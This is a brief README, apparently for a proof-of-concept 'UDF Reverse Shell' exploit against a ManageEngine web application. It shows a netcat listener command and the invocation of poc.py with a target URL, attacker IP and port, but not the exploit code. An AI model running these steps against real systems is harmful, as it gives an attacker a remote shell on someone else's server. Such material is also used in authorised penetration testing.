 # UDF Reverse Shell

## How to use
1. Start a netcat listener:
```bash
nc -lnvp 4444
```

2. Run the proof of concept (poc.py) using Python2 and specify the target ManageEngine web application and listener parameters:
```bash
python2 poc.py https://manageengine:8443 192.168.45.211 4444
```
